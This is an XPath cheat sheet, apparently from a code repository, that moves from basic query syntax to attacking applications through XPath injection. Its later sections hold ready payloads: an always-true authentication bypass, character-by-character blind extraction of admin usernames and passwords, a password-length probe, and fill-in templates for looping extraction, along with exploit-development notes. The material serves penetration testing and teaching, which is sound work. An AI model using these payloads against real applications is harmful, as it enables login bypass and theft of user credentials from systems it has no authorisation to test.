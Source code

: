 # XPath Cheat Sheet 


## 1. Core Concepts

### Node Selection

- `/` — absolute path
    
- `//` — anywhere in the document
    
- `.` — current node
    
- `..` — parent node
    
- `@` — attribute access
    

### Examples:

```xpath
/user/username       - selects <username> under <user>
//user               - selects all <user> elements in the document
//user[1]            - selects the first <user> anywhere
```

---

## 2. Predicates and Filters

- `[condition]` — filter nodes based on condition
    
- `[1]`, `[2]`, etc. — index-based selection (1-indexed)
    

### Examples:

```xpath
//user[role='admin']             - selects all users with role 'admin'
//user[role='admin'][1]          - selects the first admin user
//user[username='alice']         - user with username alice
```

---

## 3. Functions for Blind Injection

### `substring(string, start, length)`

Extracts a substring starting at `start` for `length` characters (1-based index).

```xpath
substring(username/text(), 1, 1) = 'a'
```

### `contains(string, substring)`

Returns true if `string` contains `substring`.

```xpath
contains(username/text(), 'adm')
```

### `string-length(string)`

Returns the number of characters in a string.

```xpath
string-length(password/text()) > 10
```

### `not(condition)`

Logical NOT operator.

```xpath
not(username='guest')
```

### `normalize-space(string)`

Strips leading/trailing whitespace and collapses internal spacing.

---

## 4. Logical Operators

- `and`, `or` — logical conjunction/disjunction
    
- `=`, `!=` — equality/inequality
    
- `<`, `>`, `<=`, `>=` — comparison operators
    

### Examples:

```xpath
//user[username='alice' and role='admin']
//user[username='alice' or username='bob']
```

---

## 5. Injection Strategy Examples

### Truth-based Authentication Bypass:

```xpath
' or 'a'='a
```

### Character-by-Character Blind Extraction:

```xpath
' or substring(//user[role='admin'][1]/username/text(), 1, 1) = 'a' or '
```

### Full Username Prefix Test:

```xpath
' or substring(//user[role='admin'][1]/username/text(), 1, 3) = 'adm' or '
```

### Conditional Length Check:

```xpath
' or string-length(//user[role='admin'][1]/password/text()) > 10 or '
```

---

## 6. Notes for Exploit Development

- XPath indexing is 1-based, not 0-based
    
- Quotes must be balanced: use `' or 'a'='a' or '` to fully close the injected predicate
    
- You cannot use wildcards like `*` inside strings; use `contains()` or `substring()`
    
- XPath 1.0 has no native `sleep()` or delay function — inference relies on response differences
    
- In XML with multiple matching nodes, XPath will return the **first match** when using `[1]`
    

---

## 7. Quick Payload Templates

### True Condition:

```xpath
' or 'x'='x
```

### False Condition:

```xpath
' and 'x'='y
```

### Substring Match:

```xpath
' or substring(//user[role='admin'][1]/password/text(), {pos}, 1) = '{char}' or '
```

### Username Discovery Loop:

```xpath
' or substring(//user[role='admin'][{index}]/username/text(), {pos}, 1) = '{char}' or '
```

---

## References

- XPath 1.0 spec: [https://www.w3.org/TR/xpath](https://www.w3.org/TR/xpath)
    
- OWASP XPath Injection: [https://owasp.org/www-community/attacks/XPATH_Injection](https://owasp.org/www-community/attacks/XPATH_Injection)

